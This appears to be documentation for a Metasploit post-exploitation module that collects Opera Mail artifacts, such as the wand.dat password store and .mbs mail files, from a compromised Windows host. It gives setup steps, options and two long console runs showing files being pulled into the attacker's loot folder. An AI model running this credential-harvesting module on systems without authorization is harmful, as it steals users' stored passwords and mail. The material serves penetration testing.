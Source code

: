 ## Module Description

This post-exploitation module gathers artifacts found on Operamail related folders from end users systems.

The list of available artifcts are listed within the module and can be added at anytime. Each artifacts are categorised so that users can specify a category to look for.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/operamail
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### REGEX

Users can set their own regular expressions so that it could be applied for the credential extraction. The default is set to ^password.

### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Example Run
### Default Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamailwand.da_873247.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513062118_default_192.168.56.106_EXTRACTIONwand.d_440695.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062118_default_192.168.56.106_operamail1.mbs_724517.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_258744.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail2.mbs_057429.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062119_default_192.168.56.106_EXTRACTION.mbs_565399.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062119_default_192.168.56.106_operamail3.mbs_471143.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_391099.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamail4.mbs_468755.mbs

[+] To:************@gmail.com
[+] From:"************"<************@************.co.uk>
[+] File with credentials saved:  /root/.msf4/loot/20210513062120_default_192.168.56.106_EXTRACTION.mbs_975964.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062120_default_192.168.56.106_operamailm2_upgr_620846.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_994734.mbs
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513062121_default_192.168.56.106_operamailm2_welc_906380.mbs

[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513062121_default_192.168.56.106_EXTRACTION.mbs_566934.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

  ```

### Verbose Output
  ```
msf6 post(windows/gather/credentials/operamail) > run 

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_CREDENTIALS_FROM_FILE: true

[*] Starting Packrat...
[*] Operamail's parent folder found
[*] Operamail's Wand.dat file found
[*] Processing C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail
[*] Downloading C:\Users\IEUser\AppData\Roaming\Opera Mail\Opera Mail\wand.dat
[*] Operamail Wand.dat downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamailwand.da_186519.dat

[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTIONwand.d_454986.dat
[*] Operamail's parent folder found
[*] Operamail's *.mbs file found
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\account1\2021\05\02\1.mbs
[*] Operamail 1.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail1.mbs_378969.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063651_default_192.168.56.106_EXTRACTION.mbs_751986.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\2.mbs
[*] Operamail 2.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063651_default_192.168.56.106_operamail2.mbs_427825.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_571426.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\3.mbs
[*] Operamail 3.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail3.mbs_783307.mbs

[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_473719.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\Opera Mail\mail\store\drafts\4.mbs
[*] Operamail 4.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamail4.mbs_771393.mbs

[*] searches for Email TO/FROM address
[+] To:************@gmail.com
[*] searches for Email TO/FROM address
[+] From:"******"<************@gmail.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063652_default_192.168.56.106_EXTRACTION.mbs_090332.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_upgrade_1160.mbs
[*] Operamail M2_upgrade_1160.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063652_default_192.168.56.106_operamailm2_upgr_993450.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_610156.mbs
[*] Processing C:\Users\IEUser\AppData\Local\Opera Mail\styles
[*] Downloading C:\Users\IEUser\AppData\Local\Opera Mail\styles\m2_welcome_message.mbs
[*] Operamail M2_welcome_message.mbs downloaded
[+] File saved to:  /root/.msf4/loot/20210513063653_default_192.168.56.106_operamailm2_welc_946408.mbs

[*] searches for Email TO/FROM address
[+] From:"OperaDesktopTeam"<noreply@opera.com>
[+] File with credentials saved:  /root/.msf4/loot/20210513063653_default_192.168.56.106_EXTRACTION.mbs_150137.mbs
[*] PackRat credential sweep Completed
[*] Post module execution completed

```